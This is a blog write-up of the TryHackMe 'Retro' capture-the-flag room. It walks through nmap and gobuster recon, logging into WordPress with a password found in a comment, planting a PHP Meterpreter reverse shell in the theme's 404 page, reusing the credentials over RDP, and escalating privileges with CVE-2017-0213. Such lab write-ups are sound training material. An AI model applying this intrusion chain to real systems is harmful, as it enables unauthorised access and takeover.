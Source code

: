 ```yaml
---
title: THM Retro
description: Write-up for THM Retro room
author: z3nn
date: 2020-10-18 21:38:09 +0300
categories: [Hacking, TryHackMe]
tags: [windows,  ctf,  privesc,  thm,  hacking,  security,  pentest,  retro]
---
```


# TryHackMe - Retro
A write-up to the Retro machine provided by [TryHackMe](https://tryhackme.com/). This machine is part of the `Offensive Pentesting` learning path from THM in the `Extra Credit` Section being rated as a `Hard` difficulty.... Let's get to it.

# Recon

```
# Nmap 7.80 scan initiated Sun Oct 18 21:41:47 2020 as: nmap -sS -sV -A -Pn -p- -T5 --script=default,vuln -oA retro 10.10.75.210
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.75.210
Host is up (0.048s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-10-18T18:43:31+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-10-17T18:37:37
|_Not valid after:  2021-04-18T18:37:37
|_ssl-date: 2020-10-18T18:46:17+00:00; -1s from scanner time.
|_sslv2-drown: 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (89%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   48.36 ms 10.11.0.1
2   48.63 ms 10.10.75.210

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 18 21:46:20 2020 -- 1 IP address (1 host up) scanned in 273.12 seconds
```

Not much to see in this scan... only 2 ports open. Going on port 80 we see a basic Windows IIS Webpage... but from the machine description we already know there's a hidden directory somewhere... so we're going to fire up gobuster and see what we can find

```
gobuster dir --url http://10.10.75.210/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.75.210/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/18 21:41:32 Starting gobuster
===============================================================
/retro (Status: 301)
```

So we have a `retro` directory... With a quick scroll we can see / know the following:
- it's a wordpress blog -> there's a `/wp-login.php` link in the footer
- there's a user `Wade` which will most likely be our way in

There's 2 ways to actually get in this user account.

## Brute force the credentials
We already know the user is `Wade` we just have to find the right password. Either use `rockyou.txt` and wait however long 'till it finds the good password or use `cewl` to generate a custom password list.

## More recon...
Since `cewl` gets us the good password also it means that somwhere on this blog that password is written down somehow... So we have to look around for it. To be honest I really didn't feel like having a long lecture about retro games but I randomly clicked on one post and then I saw something __interesting__

Wade commented on one of the posts `Ready Player One` and if we look there he just left a random __note to self__ with the word `parzival`. 


# Foothold
Foothold was a bit interesting since I started up on a path that I normally take when seeing wordpress apps... I logged in with `Wade:parzival` credentials and went straight for the theme editor. with the help of [PenTest.WS](https://pentest.ws/) I created a `php/meterpreter/reverse_tcp` php shell that I manually added in the `404.php` page. Started a Metasploit TCP Listener and just went to a random link to get the 404 page. It worked... I'm in... something... I got in the user under which the web application was running

```
[*] Meterpreter session 1 opened (10.11.14.38:9090 -> 10.10.75.210:52759) at 2020-10-18 22:10:13 +0300

meterpreter > getuid
Server username: IUSR (0)
meterpreter > sysinfo
Computer    : RETROWEB
OS          : Windows NT RETROWEB 10.0 build 14393 (Windows Server 2016) i586
Meterpreter : php/windows

```

After about 30 minutes of trying stuff, trying to break out from this user and into `Wade` I realized there's something I didn't try... One common issue with users is `password reuse`, so if he was using that password for his wordpress account... what else could he used it for ?

Since this is a Windows machine I'm going to use `xfreerdp` to try and connect into this machine as `Wade`
```
xfreerdp /u:wade /v:10.10.75.210
```
It worked! we're in.

![windows_desktop](/assets/img/posts/thm_retro_windows.desktop.png)

From here on you can pretty much upload a meterpreter shell to benefit from the post exploitation modules within `Metasploit` and either get the flag now from RDP or get it after from meterpreter.

# PrivEsc

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

PrivEsc was pretty straight forward, using `CVE-2017-0213` - everything needed is found in [this github repo](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213)

Get root flag and GTFO.